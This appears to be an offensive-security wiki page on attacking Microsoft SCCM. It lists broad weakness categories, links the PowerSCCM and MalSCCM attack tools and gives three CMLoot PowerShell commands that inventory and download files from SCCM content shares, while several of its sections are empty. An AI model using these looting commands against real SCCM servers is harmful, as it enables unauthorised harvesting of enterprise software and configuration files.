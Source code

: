 ```yaml
---
description: Microsoft SCCM (System Center Configuration Manager)
---
```


# 🟠 SCCM

While SCCM is a powerful tool for managing and deploying software in enterprise environments, it is not without its flaws. Here, I will explore five relevant vulnerabilities that could potentially compromise the security of SCCM.&#x20;

By understanding these weaknesses, we can work towards enhancing the overall security of our systems.

* Unauthorized Access through Weak Authentication Mechanisms
* Insecure Communication Channels
* Lack of Patch Management
* Insufficient Privilege Management
* Weak Encryption of Sensitive Data

### Tools to Attack SCCM

* [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM)
* [MalSCCM](https://github.com/nettitude/MalSCCM)

### SCCM Deployment

### Network Access Accounts

### SCCM Shares

```powershell
Invoke-CMLootInventory -SCCMHost sccm01.domain.local -Outfile sccmfiles.txt
```

{% code overflow="wrap" %}
```powershell
Invoke-CMLootDownload -SingleFile \\sccm\SCCMContentLib$\DataLib\SC100001.1\x86\MigApp.xml
```
{% endcode %}

```powershell
Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension msi
```
